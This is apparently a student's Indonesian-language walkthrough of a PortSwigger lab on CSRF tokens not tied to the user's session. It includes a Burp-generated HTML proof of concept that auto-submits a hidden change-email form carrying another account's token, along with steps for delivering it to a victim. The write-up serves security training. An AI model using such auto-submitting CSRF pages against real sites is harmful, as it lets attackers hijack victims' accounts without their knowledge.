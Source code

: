 
# CSRF where token is not tied to user session

Fungsi untuk mengubah email dalam lab ini **rentan terhadap serangan CSRF**. Aplikasi berusaha menggunakan token untuk mencegah serangan CSRF, namun token tersebut **tidak terintegrasi dengan sistem sesi** yang digunakan oleh situs.

**Untuk menyelesaikan lab**, gunakan exploit server Anda untuk menayangkan halaman HTML yang melakukan **serangan CSRF** untuk mengubah alamat email pengunjung.

Anda memiliki dua akun di aplikasi yang dapat Anda gunakan untuk membantu menyusun serangan:
```
Username: wiener
Password: peter
```
```
Username: carlos
Password: montoya
```

> **Hint**: Anda tidak dapat mendaftarkan email yang sudah digunakan pengguna lain. Jika Anda mengubah email Anda sendiri saat menguji exploit, pastikan menggunakan alamat yang berbeda untuk exploit akhir yang Anda kirim ke korban.

---

### Referensi
- [Bypassing token validation - PortSwigger](https://portswigger.net/web-security/csrf/bypassing-token-validation)

---

![img](images/CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/1.png)

---

Dalam skenario ini, request **POST** default untuk mengubah email memiliki parameter `csrf`. Saya **mencegat (intercept)** dan **menghapus** request tersebut agar token CSRF tidak digunakan. Namun sebelum itu, saya membuat **CSRF PoC**:

![img](images/CSRF%20where%20token%20is%20not%20tied%20to%20user%20session/2.png)

Ketika menekan "Engagement tools" > "Generate CSRF PoC" di Burp Suite, didapatkan PoC HTML berikut:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8d002b036bf12e80d4301200d80079.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test9&#64;test&#46;com" />
      <input type="hidden" name="csrf" value="FbQyYrVpBEJETLtQVqXtlLRi69gJg3WR" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## Penjelasan Singkat PoC

- Aplikasi menggunakan parameter `csrf`, tapi **tidak memeriksa** apakah token terkait dengan **sesi pengguna** yang login.  
- Anda dapat menggunakan **token** milik akun lain (misal, token didapat dari akun wiener), lalu **memberikannya** ke korban (misal, akun carlos) untuk melakukan request pengubahan email.  
- Browser korban tetap akan **menyertakan cookie sesi** korban, sehingga server menganggap request datang dari korban dan mengubah email mereka.  
- Dengan `<script>` yang menjalankan `document.forms[0].submit();`, form otomatis dikirim tanpa perlu tindakan manual korban.

**Langkah terakhir**: Unggah HTML PoC ini ke **exploit server** dan berikan link-nya ke korban. Saat korban (yang sedang login) mengunjungi link tersebut, email korban akan berhasil diubah.
